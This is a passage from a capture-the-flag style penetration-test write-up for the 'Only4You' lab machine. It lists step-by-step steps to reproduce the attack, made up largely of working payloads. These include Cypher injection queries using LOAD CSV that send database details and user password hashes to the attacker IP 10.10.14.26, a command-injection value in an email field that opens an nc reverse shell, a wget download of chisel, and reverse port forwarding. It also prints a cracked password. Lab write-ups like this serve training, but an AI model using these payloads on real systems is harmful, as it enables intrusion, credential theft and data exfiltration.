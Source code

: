 ``` ' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.26:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // ```

![image](images/Only4You/Imagen33.png)

As with every new set of credentials, I try to access via ssh to the machine using them.

![image](images/Only4You/Imagen34.png)

## Initial Access – LFI+RCE+Cipher Injection

**Vulnerability Explanation**: Present subdomain is vulnerable to LFI, which lets the attacker to leak the main domain application source code. Reviewing this code, a Command Injection point is found which allows RCE and thus, to open a reverse shell. Through this shell, port forwarding allows access to a local hosted app login page, where default credentials are tested gaining access using “admin:admin”. This locally hosted application is vulnerable to Cipher Injection attacks and is possible to extract hashed passwords for ssh user John.

**Vulnerability Fix**: Sanitizing user input to avoid LFI, and command injection. Avoid using global-ly known default credentials as “admin:admin”.

**Severity**: Critical.

**Steps to reproduce the attack**: The steps followed for discovering the entry path are explained above, here, I will only show the injections used to obtain the info that let the attacker open and ssh shell as local user john.

•	Setup a listening port (444) and send HTTP post Request to http://only4you.htb with following params:
          
    o	name=randomString
          
    o	email=inf@random|rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.26+444+>/tmp/f 
          
    o	subject=randomString 
          
    o	message=randomString

•	Download chisel on the victim with: ``` wget http;//10.10.14.26:8000/chisel ```

•	Port forwarding to access local web app on port 8001 with
          
    o	On attacking machine: ./chisel server -p 8888 –reverse 
          
    o	On victim: ./chisel client attacking-ip:8888 R:8989:localhost:8001
      
•	Access http://localhost:8989 and login with default credentials “admin:admin”
      
•	Setup a Python Simple HTTP Server (listening on port 8000) on attacking machine using: ``` python -m http.server ```
      
•	On the search panel, introduce the following Cypher Query: ``` ' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as result LOAD CSV FROM 'http://10.10.14.26:8000/?u=' + result +'='+toString(u[result]) as l RETURN 0 as _0 // ```

•	Break the obtained SHA256 hash (“a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6”) for user’s john password (“ThisIs4You”)

•	Access via SSH as “john”.

![image](images/Only4You/Imagen35.png)

## Privilege Escalation - Insecure SUDO binary permissions.

```